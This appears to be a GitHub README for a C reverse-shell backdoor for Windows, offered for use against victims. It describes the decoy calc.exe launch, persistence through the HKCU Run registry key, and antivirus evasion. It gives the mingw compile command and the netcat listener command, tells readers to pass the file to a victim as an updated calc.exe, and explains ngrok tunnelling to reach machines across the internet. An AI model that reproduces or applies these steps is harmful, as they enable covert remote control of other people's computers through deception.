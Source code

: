 # PersistentCReverseShell

A FUD Backdoor Reverse Shell coded in C for any Windows distribution, that will fire a decoy app in the foreground while connecting back to the attacker machine as a silent background process.

<b>
In additition to this , the malware will copy itself in the %appdata% folder , and make itself persistent ON BOOT , by adding a startup registry key in :HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run

Thus at every boot, the malware will start a callback to the attacker machine, and will connect, provided the Listner, is on.
</b>

<b><i><u>
Oh, did I mention , that the shell that YOU WILL GET WILL BE A "POWRSHELL" !!!!   
</b></i></u>

Change the IP to the attacker machine's IP and the port number to your desired port number and compile using: 
<b>
i686-w64-mingw32-gcc creverse.c -o reverse.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
</b>

Pass it to the attacker , stating that this is a updated version of calc.exe. You can scan the application with your AV solutions , if you want , and I am pretty sure thant 98% of the AV solutions will NOT detect it. It has passed the check of Windows Defender with an updated definition file.

PLEASE DO NOT UPLOAD TO VIRUSTOTAL !!!

Start a netcat listener on port 8080 using nc -lvp 8080

Once the victim executes the app, the decoy process (calc.exe) will fire up in the foregroud on the victim's end , while a reverse shell will fire up in the background, giving you a POWERSHELL PROMPT on the attacking machine.

PS: Even if the victim decides to exit the calc.exe the reverse shell session will be on , as they are running on 2 different processes.

Cheers

#Captain_Nemo

PS: For WAN exploits , fire up ngrok with the following parameters (incase port forwarding is dissalowed by your ISP) ./ngrok tcp 8080

Region United States (us)
Web Interface http://127.0.0.1:4040
Forwarding tcp://0.tcp.ngrok.io:19864 -> localhost:8080

Connections ttl opn rt1 rt5 p50 p90
0 0 0.00 0.00 0.00 0.00

Ping 0.tcp.ngrok.io atleast 6-7 times to get a stable mirror IP and port. When u see that the IP and the port numbers are same after 5-6 last pings , use that IP and port in the code.> compile the code > pass it to the victim machine > make sure ngrok is NOT interrupted on the attacker machine as a new ngrok session will grab a new IP and port > start a nc -lvp 8080 on the attacker system. > execute the payload on the victim machine > get session over WAN/Internet on the attacker machine .


CHEERS

#CAPTAIN_NEMO
